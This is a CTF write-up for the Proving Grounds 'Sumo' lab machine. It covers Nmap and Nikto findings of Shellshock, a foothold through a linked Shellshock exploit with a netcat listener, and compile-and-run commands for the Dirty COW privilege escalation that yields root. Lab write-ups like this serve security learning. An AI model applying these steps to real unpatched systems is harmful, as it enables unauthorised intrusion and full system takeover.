 ```yaml
---
title: "Proving grounds Play: Sumo"
layout: post
date: 2023-08-29 02:00
categories: writeup
---
```


Proving grounds Play - Sumo CTF writeup.

## Nmap

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Vulnerable to Shellshock

```text
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.180.87
+ Target Hostname:    192.168.180.87
+ Target Port:        80
+ Start Time:         2023-08-28 23:26:01 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ /: Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 13:55:10 2020. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ /cgi-bin/test: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /cgi-bin/test.sh: Uncommon header '93e4r0-cve-2014-6278' found, with contents: true.
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

## Initial Foothold

Run netcat listener and the [Shellshock Exploit](https://github.com/b4keSn4ke/CVE-2014-6271) to obtain initial foothold.

![img](/assets/images/CTF/Proving_Grounds/Sumo/shell.png)

## Privilege Escaltion

**Get kernel information**

```sh
cat /etc/*release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
```

Ubuntu 12.04 is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

Download the exploit to the attaking machine and make sure the `gcc` path is exported, if not use the below to export.

```sh
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

**Follow below steps to obtain root**

```sh
# compile the code
gcc -pthread dirty.c -o dirty -lcrypt

# Then run the newly create binary
./dirty my-new-password

# now use su or ssh to firefart with new password
```

![img](/assets/images/CTF/Proving_Grounds/Sumo/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).